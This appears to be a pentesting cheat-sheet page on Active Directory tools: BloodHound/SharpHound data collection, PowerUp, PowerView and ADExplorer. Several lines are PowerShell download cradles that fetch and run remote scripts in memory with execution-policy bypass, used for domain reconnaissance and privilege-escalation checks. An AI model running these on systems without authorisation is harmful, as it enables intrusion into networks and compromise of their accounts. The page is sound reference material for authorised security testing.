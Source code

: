 # Tools


## Bloodhound



### Running SharpHound

Using bloodhound requires two things (1) Extract the data and (2) Analyze the data.

Extracting the data can be done with the powershell-script SharpHound.ps1

```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');
```

Or you can download the module and then run:

```
powershell -Exec Bypass
import-module .\Sharphound.ps1
invoke-bloodhound
invoke-bloodhound -CollectionMethod all
```

In order to transfer the resulting zip-file from the windows computer to your linux-machine where you are running bloodhound see [Transfering Files](../../good_to_know/transfering_files).

### Running Bloodhound

If you have the kali-repo you can install bloodhound like this:

```
sudo apt-get install bloodhound
sudo neo4j console
bloodhound
```

The default username/password for neo4j is neo4j/neo4j.  


```
ps aux | grep neo4j
sudo kill XXXX
```


References:
Understanding Bloodhound output:
https://wald0.com/?p=112



## PowerUp


```
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1'); Invoke-AllChecks"
```

## PowerView



```
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');"
```

## ADExplorer

It can be downloaded from here:

```
https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer
https://download.sysinternals.com/files/AdExplorer.zip
```
